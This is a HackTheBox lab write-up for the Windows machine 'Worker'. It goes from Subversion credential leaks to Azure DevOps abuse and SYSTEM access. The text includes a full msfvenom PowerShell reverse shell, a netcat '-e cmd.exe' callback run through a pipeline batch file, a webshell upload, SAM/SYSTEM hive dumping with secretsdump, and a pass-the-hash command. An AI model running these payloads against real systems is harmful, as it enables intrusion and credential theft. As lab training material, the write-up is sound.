 ```yaml
---
title: Worker Writeup [HTB]
tags: [HackTheBox, Windows]
image: /assets/images/worker/worker.png
published: true
banner: true
---
```


Worker is a Windows based machine that was active since August 15th of 2020 to January 30th of 2021, we will start this machine cloning a repository stored on Subversion, on this repository we will get a subdomain where we will find an instance of Azure Devops, also on the history of this repository we will get some valid credentials for Azure, the machine serves a lot of subdomains and we will be able to modify them throught Azure, so we will upload a web shell and then spawn a reverse shell, enumerating the machine we will find some credentials to a user with higher privileges, using this credentials we will be able to queue commands on Azure which runs as Authorithy\system finishing the machine.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.203
nmap -sC -sV -p 5985,3690,80, -Pn -o scan.txt 10.10.10.203

PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3690/tcp open  svnserve Subversion
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We only see three ports, a webpage on port 80, a Subversion server on port 3690 and WSMAN on port 5985, if we check the webpage we can't find anything interesting we clone the Subversion server, unlike Git we don't need the repository name to clone, there is a default repository that will be cloned, also unlike Git the repository will be cloned in our curent directory it won't create a new one, so we have to create a directory before cloning it, to clone the repository we use the command `svn checkout svn://10.10.10.203:3690`, after running the command we get a directory called "dimension.worker.htb" and a .txt file.

![](/assets/images/worker/svn.png)

On moved.txt we find the next message.
```
This repository has been migrated and will no longer be maintaned here.
You can find the latest version at: http://devops.worker.htb

// The Worker team :)
```

We got another subdomain, if we add it to our hosts file and try to access to it we are prompted to insert some credentials.

![](/assets/images/worker/devopslogin.png)

We don't have any, so we go back to our cloned repository, just like Git we can check the history of the respository, to do it we run `svn log`.

![](/assets/images/worker/svnlog.png)

We got a username "nathen" but we still need to get the password, so we check the commits searching for it, and we found it on the second one, wendel98. `svn diff -r 2`.

![](/assets/images/worker/svndiff.png)

Using these credentials we can access to devops.worker.htb, and we found that Azure Devops is running there.

![](/assets/images/worker/azuredevops.png)

# [](#header-1)Gaining Access

Exploring throught the Web Application we find some git repositories stored there.

![](/assets/images/worker/azuregit.png)

If we enumerate the subdomain "dimension.worker.htb" we will find a lot of other subdomains inside the machine, well those repositories belongs to those subdomains, so we can upload a webshell to any page. We can't push directly into the repository, but we can make a pull request, so we have to do a couple of steps, we can do this on any repository, first we create another branch, we can push directly into this branch, so we click on "upload file" and select our webshell (on parrot there is one available on /usr/share/webshells/aspx/cmdasp.aspx), then we make the pull request for the change and select a work item (if you don't do it you won't be able to merge to the master branch), you can see which work items are available on Boards > Work Items. Finally we aprove the request a merge to the master branch, on this case the shell was named "subte.aspx".

![](/assets/images/worker/shelluploaded.png)

Now we can go "http://alpha.worker.htb/subte.aspx" (we go there because we modified the alpha repository, if we had modified another repository we would had to go the corresponding subdomain), there we will find our webshell.

![](/assets/images/worker/webshell.png)

There is a running task that cleans everything after a short amount of time, so we have to move quickly if we don't want to do everything again, so we generate a reverse shell command using msfvenom: `msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.15.120 LPORT=54321`, we get the next command (please notice I separated the command in several lines so it gets showed here, msfvenom generates a one liner).

```powershell
powershell -w hidden -nop -c $a='10.10.15.120';$b=54321;$c=New-Object system.net.sockets.tcpclient;
$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object 
System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;
$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.
RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.
Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.
BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, 
$null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) {    start-sleep -m 100;    if 
($osread.IsCompleted -and $osread.Result -ne 0) {      $r=$os.BaseStream.EndRead($osread);      $s.
Write($ob,0,$r);      $s.Flush();      $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, 
$null);    }    if ($esread.IsCompleted -and $esread.Result -ne 0) {      $r=$es.BaseStream.EndRead
($esread);      $s.Write($eb,0,$r);      $s.Flush();      $esread=$es.BaseStream.BeginRead($eb, 0, 
$eb.Length, $null, $null);    }    if ($s.DataAvailable) {      $r=$s.Read($nb,0,$nb.Length);      if 
($r -lt 1) {          break;      } else {          $str=$e.GetString($nb,0,$r);          $is.write
($str);      }    }    if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.
SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) {        break;    }    if ($p.ExitCode -ne 
$null) {        break;    }}
```

We start our listener with `rlwrap nc -lvp 54321`, paste the reverse shell command on the webshell and we will get a reverse shell.

![](/assets/images/worker/shell1.png)

We run winpeas and find out that there is another drive, we can get the available drives through WMI, `wmic localdisk get name`.

![](/assets/images/worker/wmic.png)

After searching on W: drive for a while we find a file called "passwd" under  "W:\svnrepos\www\conf\", so we retrieve it a get a lot of credentials.

![](/assets/images/worker/passwd.png)

There are another two users on the machine "robisl" and "restorer", on the file we get the password of "robisl", "wolves11", we can use evil-winrm to get a shell as him and get "user.txt".

![](/assets/images/worker/shell2.png)

# [](#header-1)Privilege Escalation

When I found out that Azure Devops was running on the machine I searched for a way of getting code execution, here is a small [example](https://docs.microsoft.com/en-us/azure/devops/pipelines/tasks/utility/batch-script?view=azure-devops) on microsoft's page, since we didn't have permissions to do it we had to go with the webshell, but with this new account we can try it again, so we login as robisl. Then using our shell we upload nc on a directory that we created, "C:\Users\robisl\Links\empty", then we have to create two files to upload to the git repository, nothing.bat.

```
C:\Users\robisl\Links\empty\nc.exe 10.10.15.120 4433 -e cmd.exe
```

And rev.yaml.

```yaml
steps:

- task: BatchScript@1

  displayName: 'Run script nothing.bat'

  inputs:

    filename: nothing.bat
```

Now we create a new branch on the repository, and upload there the two files, "rev.yaml" and "nothing.bat", there is no need to merge them to the master branch, now we go to pipelines and create a new one, we click on "Use the classic editor", on the next step we have to select the branch where we uploaded the files, on this case "hithere". 

![](/assets/images/worker/pipebranch.png)

Then we select "YAML", now we select an agent pool and our yaml file. 

![](/assets/images/worker/pipequeue.png)

With that we save and queue the file, after waiting for a while we will get a shell as authority\system.

![](/assets/images/worker/shell3.png)

But there is a problem, this shell won't last to long, it is killed after a short time, so we have to do something to keep access, so on this case we will dump the sam and system files, to do that we use the command `reg SAVE HKLM\SAM C:\Users\robisl\Links\empty\sam`, the same with system file, we saved them on a directory where we have access with "robisl", so we can download it with evil-winrm, once we have download them we use secretsdump to get the hashes, `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system local`

![](/assets/images/worker/secretsdump.png)

Now that we have the NT hash of administrator we can perfom a pass the hash to get access as him on the machine, retrieve root.txt and finish with the box, `evil-winrm -i 10.10.10.203 -u Administrator -H ea60b1a1d2e4ae93765e43aef4442318`.

![](/assets/images/worker/shell4.png)